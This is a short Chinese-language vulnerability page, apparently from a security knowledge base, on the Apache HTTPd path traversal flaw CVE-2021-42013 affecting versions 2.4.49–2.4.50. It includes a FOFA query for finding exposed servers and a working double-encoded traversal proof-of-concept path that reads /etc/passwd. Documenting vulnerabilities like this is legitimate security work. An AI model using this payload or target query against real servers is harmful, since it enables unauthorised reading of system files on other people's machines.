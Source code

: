 ```yaml
---
title: Apache HTTPd 路径穿越漏洞 CVE-2021-42013 
---
```


# Apache HTTPd 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

<a-checkbox checked>Apache HTTPd  2.4.49~2.4.50版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## 漏洞复现

通过响应包获取 Apache版本

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094051147.png)

验证POC

```php
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633686079889-61449308-0e08-44e8-8f28-63889158f769-20220308094051256.png)